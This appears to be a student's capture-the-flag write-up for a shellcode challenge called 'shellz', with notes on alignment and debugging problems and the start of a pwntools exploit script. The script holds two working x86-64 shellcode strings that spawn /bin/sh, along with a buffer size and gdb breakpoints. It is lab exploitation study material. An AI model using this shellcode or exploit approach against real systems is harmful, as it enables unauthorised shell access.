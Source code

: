 Best way is to predict the rand:

Predict rand() (best)

WTF why does the order of the payload matter?

General overview of problems faced
-------------------------------------

* Shell code needed to be debugged

* Shellcode needs to be 16byte aligned!

* For some reason I cannot put the shellcode at the very end! Needs to be somewhere in the buffer

Script/Command used
------------------

```
print "world hello"
```

Shellz
===========================

Open file descriptor = 1000
Read contents from fd
write into the buffer
make the shellcode do this:

read(fd, buff, size)
write(1, buf, nread)
exit(0)

===========================

General overview of problems faced
-------------------------------------

* Shell code needed to be debugged

* Need to use syscall read, write and exit so the program does not crash

* This big shellcode can be used for egg hunting in find-me!!

* Ensure buffer is correct size

Script/Command used
------------------

```
from pwn import *
import re, time, random
from ctypes import CDLL, c_uint, c_int, byref

# 6447.lol 3002
PROGRAM_PATH = (Path(__file__).parent / "shellz").resolve().__str__()
BUFF_SIZE = 8192 + 8  # 0x2000
SHELL_CODE = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
Shellcode2 = b"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"

PAYLOAD_SIZE = len(SHELL_CODE)
WRAP_AROUND = 500

gdb_script = """
b *vuln+62
b *vuln+104
b *vuln+138
c
"""
```